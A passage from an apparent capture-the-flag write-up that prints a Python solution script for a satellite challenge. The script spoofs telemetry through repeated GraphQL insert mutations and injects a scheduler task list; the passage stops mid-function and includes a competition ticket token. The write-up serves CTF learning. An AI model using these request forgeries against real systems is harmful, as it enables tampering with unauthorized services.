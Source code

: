 ### Solution

The solution script that performed all this is below.

```python
import requests
import threading
import time
import json
import dateutil.parser
import sys
from pwn import *

host = 'spacedb.satellitesabove.me'
port = 5062
ticket = 'ticket{india3201lima:GHctMS4q4RgTvZO_LnWYOLLHRrE9m6IzgfRQ7OC5nhtXsa1cEpJL7FGU4aQVL80t0w}'

r = remote(host, port)
r.recvuntil("Ticket please:\n")
r.sendline(ticket)

prompt = r.recvuntil("Debug telemetry database running at: ").decode()
tel_url_line = r.recvline().decode()
print(prompt + tel_url_line)

tel_url = "http://"+tel_url_line.rstrip()

def start_thread(url):
    while True:
        try:
            resp = requests.post(url,
                                 json={
                                     "query":
                                     "mutation {  insert(subsystem: \"eps\", parameter: \"VIDIODE\", value: \"7.0\") { success, errors }}",
                                     "variables": None}, headers={"Referer": url})
            time.sleep(1)
        except:
            pass

t = threading.Thread(target=start_thread, args=(tel_url,), daemon=True)
t.start()

prompt = r.recvuntil("Scheduler service comms started successfully at: ").decode()
sch_url_line = r.recvline().decode()
print(prompt + sch_url_line)

sch_url = "http://" + sch_url_line.rstrip()

def add_task(dicts, name, delay, extra=None):
    task_data = {"delay": delay,
                  "description": "",
                  "app": { "name": name}}
    if extra:
        task_data.update(extra)
    dicts["tasks"].append(task_data)

def enable_sunpoint_in_low_power():
    task_dict = {"tasks": []}
    add_task(task_dict, "sunpoint", "0s")

    base_query = "mutation { importRawTaskList(name: \"nominal-op\", mode: \"low_power\", json: %s) { success, errors }}"

```
